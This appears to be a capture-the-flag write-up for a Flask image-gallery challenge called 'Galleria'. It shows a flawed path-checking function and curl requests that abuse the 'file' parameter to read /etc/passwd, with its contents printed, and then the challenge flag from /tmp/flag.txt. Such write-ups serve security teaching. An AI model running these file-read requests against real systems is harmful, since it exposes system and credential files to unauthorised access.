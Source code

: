 <h1> Galleria </h1>

<p> On this flask web server we can upload some image file and see all the image uploads on the server. </p>

```bash
$ curl https://galleria.chal.nbctf.com/gallery                                                             
<!DOCTYPE html>
<html>
    <head>
        <title>Galleria</title>
        <style>
        </style>
    </head>
    <body>
        <div class="header">
            <h1>Welcome to the Galleria!</h1>
        </div>
        <div class="upload-form">
            <h2>Upload your images here:</h2>
            <form action="/upload" method="post" enctype="multipart/form-data">
                <input type="file" name="image" accept="image/*" />
                <button type="submit">Upload</button>
            </form>
        </div>
        <div class="gallery">

            <img src="/gallery?file=images.png" />

            <img src="/gallery?file=help.png" />

            <img src="/gallery?file=Screenshot_2022-10-28_130929.png" />

            <img src="/gallery?file=previous.png" />

            <img src="/gallery?file=crypt.js.png" />
        </div>
    </body>
</html>%
```
<p>We can see that all images are loaded through the file parameter. After looking at the source code we can see that the parameter is vulnerable to LFI.</p>

```python
def check_file_path(path):
    _path = Path(path)

    parts = [*Path.cwd().parts][1:]
    print(parts)
    for part in _path.parts:
        if part == '.':
            continue
        if part == '..':
            parts.pop()
        else:
            parts.append(part)

        if len(parts) == 0:
            return False
    print(parts)
```
<p> We can explot a basic LFI to read sensitive files and the flag ! </p>

```bash
$ curl https://galleria.chal.nbctf.com/gallery\?file\=/etc/passwd    
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
```bash
$ curl https://galleria.chal.nbctf.com/gallery\?file\=/tmp/flag.txt
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```
